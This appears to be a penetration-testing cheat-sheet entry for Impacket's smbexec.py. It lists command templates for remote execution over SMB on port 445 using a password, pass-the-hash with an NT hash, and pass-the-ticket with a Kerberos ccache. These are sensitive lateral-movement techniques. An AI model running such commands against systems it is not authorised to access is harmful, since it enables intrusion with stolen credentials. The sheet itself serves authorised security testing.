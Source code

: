 # smbexec (imp)

%  windows, impacket-exec, smb


## username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py '<domain>/<user>:<password>'@<ip>
```

## pth
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py -hashes :<nt_hash> <domain>/<user>@<ip>
```

## ptt
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
```
export KRB5CCNAME=<ccache_file>; smbexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```
